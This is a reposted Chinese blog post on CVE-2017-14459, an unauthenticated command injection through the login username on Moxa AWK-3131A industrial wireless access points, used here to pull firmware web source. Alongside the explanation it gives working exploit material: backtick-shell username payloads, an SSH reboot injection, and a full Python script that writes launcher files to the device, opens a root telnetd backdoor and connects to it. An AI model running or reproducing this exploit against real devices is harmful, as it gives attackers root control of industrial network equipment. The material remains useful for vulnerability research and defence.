

# CVE-2017-14459-Moxa AWK-3131A 多种功能登录用户名参数 OS 命令注入漏洞 - 17bdw - 博客园

> 原文：[`www.cnblogs.com/17bdw/p/12084791.html`](https://www.cnblogs.com/17bdw/p/12084791.html)

## 前言

因为需要提取源码测试某个漏洞。想不到 2017 年同系列的控制口漏洞还能被利用[Moxa AWK-3131A 多种功能登录用户名参数 OS 命令注入漏洞](https://talosintelligence.com/vulnerability_reports/TALOS-2017-0507)。

## 固件源码提取过程

### 漏洞原理

固件版本为 1.4~1.7 的 Moxa AWK-3131A Industrial IEEE 802.11a/b/g/n wireless AP/bridge/client 的 telnet、ssh 和控制台登录功能中存在可以被利用的 OS 命令注入漏洞。可以通过多个服务（ssh、telnet、console）的 username 参数注入命令，不需要身份验证就可以远程执行命令。

### 漏洞细节

Moxa AWK-3131A Industrial IEEE 802.11a/b/g/n wireless AP/bridge/client 是在工业环境中使用的无线网络设备，主要以自动物料搬运和自动引导车辆为目标市场。
这个漏洞不需要身份验证就可以远程注入操作系统命令，设备会用 root 权限执行注入的操作系统命令。
漏洞部分触发代码是由 moxa 身份验证失败创建日志引起的。固件版本 1.4 - 1.7 任何依赖 Busybox loginutils 服务登录失败都会触发类似于以下内容的代码：

```
sprintf(buf, "/usr/sbin/iw_event_user %s %s %s", IW_LOG_AUTH_FAIL);
system(buf) 
```

用户名字段作为参数传递给 iweventuser，然后传给 system()函数，允许命令注入。以下是控制台登录失败应用部分的反汇编代码：

```
.text:0040D55C                 lui     $a1, 0x4A
.text:0040D560                 lui     $a3, 0x4A
.text:0040D564                 addiu   $a0, $sp, 0x128+var_108
.text:0040D568                 la      $a1, aUsrSbinIwEvent  # "/usr/sbin/iw_event_user fail SERIAL \"%s\" \"%s\"...
.text:0040D56C                 addiu   $a2, $sp, 0x128+var_88
.text:0040D570                 j       loc_40D584
[...snip...]
.text:0040D584 loc_40D584: # CODE XREF: sub_40D0B4+4BC↑j
.text:0040D584 la $t9, sprintf
.text:0040D588 jalr $t9 ; sprintf
.text:0040D58C addiu $s4, -1
.text:0040D590 lw $gp, 0x128+var_110($sp)
.text:0040D594 la $t9, system
.text:0040D598 jalr $t9 ; system 
```

在登录名的用户名字段中注入 OS 命令后，可以在进程列表中标识该命令的执行，如下所示。

```
sh -c /usr/sbin/iw_event_user fail <SERVICE> "`<CMD>`" "<REMOTE_IP:PORT>" 
```

当通过 Telnet 注入 sh 时，执行过程如下。

```
sh -c /usr/sbin/iw_event_user fail TELNET "`sh`" "<REMOTE_IP:PORT>" 
```

已经通过 Telnet，SSH 和本地控制台端口确认了漏洞可以被利用，怀疑 WEB 应用程序也可能有漏洞，因为 WEB 登录也依赖于 loginutils。并且对 iw_event_user 二进制文件检查也发现含有“ WEB”、“ TELNET”和“ SSH”的“ fail”信息。

默认情况下设备将 stderr 输出显示到控制台，即使没有身份验证。将 stdout 重定向到 stderr（使用 1>＆2）可以使攻击者在注入 OS 命令时接收控制台输出。

较旧的固件版本（1.3 和更早版本）也有类似漏洞，但难以利用。 例如通过版本 1.0 上的控制台端口输入 sh 或 reboot，会导致控制台挂起/冻结，并且需要重新启动电源。 版本之间的可利用性差异可能是跟 v1.4 及更低版本中生成日志记录的方式不同有关。

Versions 1.0 - 1.4

```
sprintf(buf, "/usr/sbin/iw_event %d", IW_LOG_AUTH_FAIL);
system(buf) 
```

#### POC 1 – telnet、控制台端口

输入由反引号括起来的 sh 作为 Telnet 或控制台端口登录提示的用户名。结果是具有 root 特权的临时远程 Shell 访问。

```
`sh` (backtick sh backtick) 
```

将 stdout 重定向到 stderr，会在控制台输出回显信息。

```
`sh 1>&2` (backtick sh space 1 greater than ampersand 2 backtick) 
```

#### POC 2 –SSH

通过 SSH 在登录参数中注入 reboot 命令，从而导致设备重新启动。 在每个反引号之前使用反斜杠。

```
ssh \'reboot\`@deviceip (ssh space backslash backtick command backspace backtick @deviceip) 
```

### Getshell-POC

绕过空间限制和输入过滤器上传和执行代码

```
#!/usr/bin/env python2
import telnetlib
import re
import random
import string

# Split string into chunks, of which each is <= length
def chunkstring(s, length):
    return (s[0+i:length+i] for i in range(0, len(s), length))

# Split strings based on MAX_LEN. Encode any newlines and/or spaces.
def split_script(script):
    MAX_LEN = 28 - len('printf${IFS}"">>/var/a') - 1
    completed = []
    temp = re.split('(\n)', script)
    for content in temp:
        if len(content) != 0:
            for s in re.split('( )', content):
                if ' ' in s:
                    s = '\\x20'
                if '\n' in s:
                    s = ['\\n']
                else:
                    s = list(chunkstring(s, MAX_LEN))
                completed.append(s)

    return [item for sublist in completed for item in sublist] # Flatten nested list items

# Execute each command via the username parameter
def do_cmd(host, command):
    tn = telnetlib.Telnet(host)
    modCommand = command.replace(' ', '${IFS}') # Spaces aren't allowed, replace with ${IFS}
    tn.read_until("login: ")
    tn.write("`%s`\n" % modCommand)
    print "Sent command: %s\n    modified: %s\n        size: %d" % (command, modCommand, len(modCommand))
    tn.read_until("Password: ")
    tn.write(" " + "\n")
    tn.read_until("incorrect")
    tn.close()

# Write script to writable directory on host
def write_script(host, script, t_dir, t_name):
    print "[*] Writing shell script to host..."
    i = 0
    for token in split_script(script):
        carat = '>' if i == 0 else '>>'
        do_cmd(host, 'printf "%s"%s%s/%s' % (token, carat, t_dir, t_name))
        i+=1

    do_cmd(host, 'chmod +x %s/%s' % (t_dir,t_name))
    print "[*] Script written to: %s/%s\n" % (t_dir,t_name)

# Attempt to connect to newly-created backdoor
def backdoor_connect(host,port):
    print "[*] Attempting to connect to backdoor @ %s:%d" % (host, port)
    tn = telnetlib.Telnet(host, port)
    tn.interact()

def main():
    host = "192.168.127.253"
    port = random.randint(2048,4096)

    w_dir = '/var' # writable directory
    s_name = random.choice(string.ascii_uppercase) # /bin/sh launcher
    t_name = s_name.lower() # telnetd launcher

    # Need a shell launcher script to launch /bin/sh because
    # telnetd adds a '-h' option to the login command
    shell_launcher = "#!/bin/sh\nexec sh"

    # Launch telnetd with the launcher script as the login
    # command to execute
    telnetd_launcher = "#!/bin/sh\ntelnetd -p%d -l%s/%s" % (port, w_dir,s_name)

    write_script(host, shell_launcher, w_dir, s_name)
    write_script(host, telnetd_launcher, w_dir, t_name)

    # Execute telnetd script and attempt to connect
    do_cmd(host, '.%s/%s' % (w_dir,t_name))
    backdoor_connect(host, port)

if __name__ == "__main__":
    main() 
```

### 反弹 shell

反弹回 shell 之后，源码都在`/var/webs/`下:


## 源码提取

进入到 WEB 目录下，执行打包命令。所有打包的数据从 WEB 目录下载。

```
cd /var/webs/
tar cvf backup.ar /var/webs/* 
```


提取回来后的源码对比，很容易就能确定某个功能。

